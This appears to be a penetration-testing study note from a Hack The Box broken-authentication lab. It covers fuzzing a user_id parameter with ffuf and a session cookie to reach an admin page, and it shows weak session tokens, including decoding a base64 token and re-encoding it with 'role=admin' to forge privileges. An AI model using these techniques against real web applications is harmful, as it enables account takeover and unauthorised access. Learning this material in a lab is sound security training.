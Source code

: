 >[!code]- Resources through parameter values
>If a web app provides a protected resource only to authenticated users through a parameter, for example:
>
>```powershell
>http://83.136.255.102:58636/admin.php?user_id=372 # allowed (shows admin page)
>http://83.136.255.102:58636/admin.php?user_id=183 # disallowed (shows standard user page)
>```
>
>We can fuzz for the 372 parameter:
>
>```powershell
># Must be authenticated (at least as a standard user) hence the PHPSESSID cookie
>ffuf -u 'http://83.136.255.102:58636/admin.php?user_id=FUZZ' -b 'PHPSESSID=e9j0kl81ouabsh5uh5gh6g5v50' -w ~/learning/htb-broken-authentication/seq-0-9999-no-pad.txt -fr 'Could not load admin data.'
>```

>[!code]- Session tokens
>>[!info]- Information
>>Session tokens are unique identifiers a web application uses to identify a user. The session token is tied to the user's session. If an attacker can obtain a valid session token of another user, the attack can impersonate the user to the web application, thus taking over their session.
>
>###### Tokens with insufficient entropy/randomness
>Session tokens may not be as random as first appears:
>```powershell
># Scenario 1 (only changing a small part)
>2c0c58b27c71a2ec5bf2b4b6e892b9f9
>2c0c58b27c71a2ec5bf2b4546092b9f9
>2c0c58b27c71a2ec5bf2b497f592b9f9
>2c0c58b27c71a2ec5bf2b48bcf92b9f9
>2c0c58b27c71a2ec5bf2b4735e92b9f9
>
># Scenario 2 (incrementing numerically)
>141233
>141234
>141237
>141238
>141240
>
># Scenario 3 (base64-encoded or hex-encoded)
>echo -n dXNlcj1odGItc3RkbnQ7cm9sZT11c2Vy | base64 -d
>user=htb-stdnt;role=user
>
>echo -n 'user=htb-stdnt;role=admin' | xxd -p
>757365723d6874622d7374646e743b726f6c653d61646d696e
>```
